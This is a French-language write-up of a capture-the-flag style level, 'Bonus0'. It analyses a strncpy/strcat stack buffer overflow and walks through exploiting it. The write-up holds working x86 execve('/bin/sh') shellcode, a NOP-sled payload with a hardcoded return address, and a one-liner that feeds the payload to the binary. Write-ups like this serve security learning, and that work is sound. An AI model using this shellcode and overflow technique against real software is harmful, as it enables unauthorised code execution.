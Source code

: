 # Bonus0 - Buffer Overflow avec Concaténation

## Fonctionnement du Programme

**Fonction p()**
- Lit jusqu'à 4096 bytes dans un buffer
- Utilise strncpy pour copier 20 bytes dans le buffer destination
- Ne garantit pas de null byte à la fin de la copie

**Fonction pp()**
- Déclare deux buffers locaux : buffer1 et buffer2
- Appelle p() deux fois pour remplir ces buffers
- Concatène les buffers avec un espace entre eux

## Vulnérabilités

1. **strncpy sans null byte**
- La fonction p() copie exactement 20 bytes sans ajouter de null byte

2. **Concaténation dangereuse**
- strcat est utilisés sans vérification de taille 
- buffer2 etant la source et n'ayant pas de null-terminate byte strcat read au dela du buffer

## Processus d'Exploitation

1. **Premier Buffer**
- Rempli avec 20 NOPs
- Sans null byte terminal

2. **Second Buffer**
- 9 NOPs pour atteindre l'adresse de retour / saved eip du main
- Adresse pointant vers notre shellcode
- NOPs supplémentaires + shellcode

3. **Concaténation**
- Les deux buffers sont concaténés avec un espace
- L'overflow écrase l'adresse de retour
- Le flux d'exécution est redirigé vers notre shellcode

4. **Exécution du Shellcode**
- Les NOPs permettent une zone d'atterrissage flexible
- Le shellcode exécute /bin/sh

## Exploitation

- Trouver l'adresse du shellcode dans la stack avec la commande find de gdb
```nasm
find /b 0xbfffe590, +2000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80
```

**Construction du Payload**
```python
# Premier input : 20 NOPs
"\x90" * 20

# Deuxième input : NOPs + Adresse + Shellcode
"\x90" * 9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + \
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

**Exécution**
```bash
(python -c 'print "\x90"*20' ; python -c 'print "\x90"*9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; cat) | ./bonus0
```
